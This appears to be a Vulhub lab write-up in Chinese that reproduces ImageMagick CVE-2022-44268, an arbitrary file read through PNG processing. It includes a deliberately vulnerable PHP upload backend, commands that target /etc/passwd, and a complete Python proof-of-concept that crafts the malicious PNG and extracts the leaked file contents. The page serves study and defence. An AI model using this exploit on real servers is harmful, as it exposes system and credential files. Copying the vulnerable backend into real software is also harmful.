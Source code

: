 # ImageMagick任意文件读取漏洞 CVE-2022-44268

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。

在ImageMagick 7.1.0-51版本及以前，其处理PNG文件的代码中存在一处功能，会导致转换图片时读取到当前操作系统上的任意文件，并将文件内容输出在图片内容中。

参考链接：

- https://www.metabaseq.com/imagemagick-zero-days/
- https://github.com/ImageMagick/Website/blob/main/ChangeLog.md#710-52---2022-11-06

## 环境搭建

Vulhub执行如下命令启动一个Web服务器，这个服务器的功能是将用户上传的任意图片缩小成50x50的PNG图片。

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可以看到图片上传框：

![image-20230206091512388](images/image-20230206091512388.png)

[后端服务](#后端服务代码)的代码十分简单：

```
$newname = uniqid() . '.png';
shell_exec("convert -resize 50x50 {$_FILES['file_upload']['tmp_name']} ./{$newname}");
```

## 漏洞复现

利用这个漏洞，需要先准备一个恶意PNG文件，文件内容中包含我们准备读取的文件路径：

可以使用[poc.py](#poc.py)来生成这个图片：

```
python poc.py generate -i input.png -o poc.png -r /etc/passwd
```

> 执行poc.py前请安装[PyPNG](https://pypng.readthedocs.io/en/latest/)：`pip install pypng`

如果你使用[010editor](https://en.wikipedia.org/wiki/010_Editor)查看这个图片，可以看到其中包含一个类型是`tEXt`的chunk，其中包含我们的Payload `profile=/etc/passwd`：

![image-20230206092153724](images/image-20230206092153724.png)

接着，我们将这个图片上传到目标服务中：

![image-20230206092252429](images/image-20230206092252429.png)

下载服务处理后生成的图片，使用[poc.py](#poc.py)提取出其中所有内容：

```
python poc.py parse -i output.png
```

![image-20230206092642268](images/image-20230206092642268.png)

可以看到，已经提取出`/etc/passwd`文件的内容，这部分内容是由ImageMagick在处理旧图片时读取并写入到新图片中。

## 附录

### 后端服务代码

```
<?php
$newname = '';
if (!empty($_FILES)) {
    $ext = pathinfo($_FILES['file_upload']['name'], PATHINFO_EXTENSION);
    if (!in_array($ext, ['gif', 'png', 'jpg', 'jpeg'])) {
        die('Unsupported filetype uploaded.');
    }

    $newname = uniqid() . '.png';
    shell_exec("convert -resize 50x50 {$_FILES['file_upload']['tmp_name']} ./{$newname}");
}
?>
<form method="post" enctype="multipart/form-data">
    File: <input type="file" name="file_upload">
    <input type="submit">
</form>
<br>
<?php
if ($newname):
?>
<h1>Your image:</h1>
<p>
    <a href="./<?=$newname?>" target="_blank">
        <img src="./<?=$newname?>" width="50" height="50">
    </a>
</p>
<?php
endif;
```

### poc.py

```
#!/usr/bin/env python3
import sys
import png
import zlib
import argparse
import binascii
import logging

logging.basicConfig(stream=sys.stderr, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
d = zlib.decompressobj()
e = zlib.compressobj()
IHDR = b'\x00\x00\x00\n\x00\x00\x00\n\x08\x02\x00\x00\x00'
IDAT = b'x\x9c\xbd\xcc\xa1\x11\xc0 \x0cF\xe1\xb4\x03D\x91\x8b`\xffm\x98\x010\x89\x01\xc5\x00\xfc\xb8\n\x8eV\xf6\xd9' \
       b'\xef\xee])%z\xef\xfe\xb0\x9f\xb8\xf7^J!\xa2Zkkm\xe7\x10\x02\x80\x9c\xf3\x9cSD\x0esU\x1dc\xa8\xeaa\x0e\xc0' \
       b'\xccb\x8cf\x06`gwgf\x11afw\x7fx\x01^K+F'


def parse_data(data: bytes) -> str:
    _, data = data.strip().split(b'\n', 1)
    return binascii.unhexlify(data.replace(b'\n', b'')).decode()


def read(filename: str):
    if not filename:
        logging.error('you must specify a input filename')
        return

    res = ''
    p = png.Reader(filename=filename)
    for k, v in p.chunks():
        logging.info("chunk %s found, value = %r", k.decode(), v)
        if k == b'zTXt':
            name, data = v.split(b'\x00', 1)
            res = parse_data(d.decompress(data[1:]))

    if res:
        sys.stdout.write(res)
        sys.stdout.flush()


def write(from_filename, to_filename, read_filename):
    if not to_filename:
        logging.error('you must specify a output filename')
        return

    with open(to_filename, 'wb') as f:
        f.write(png.signature)
        if from_filename:
            p = png.Reader(filename=from_filename)
            for k, v in p.chunks():
                if k != b'IEND':
                    png.write_chunk(f, k, v)
        else:
            png.write_chunk(f, b'IHDR', IHDR)
            png.write_chunk(f, b'IDAT', IDAT)

        png.write_chunk(f, b"tEXt", b"profile\x00" + read_filename.encode())
        png.write_chunk(f, b'IEND', b'')


def main():
    parser = argparse.ArgumentParser(description='POC for CVE-2022-44268')
    parser.add_argument('action', type=str, choices=('generate', 'parse'))
    parser.add_argument('-i', '--input', type=str, help='input filename')
    parser.add_argument('-o', '--output', type=str, help='output filename')
    parser.add_argument('-r', '--read', type=str, help='target file to read', default='/etc/passwd')
    args = parser.parse_args()
    if args.action == 'generate':
        write(args.input, args.output, args.read)
    elif args.action == 'parse':
        read(args.input)
    else:
        logging.error("bad action")


if __name__ == '__main__':
    main()
```

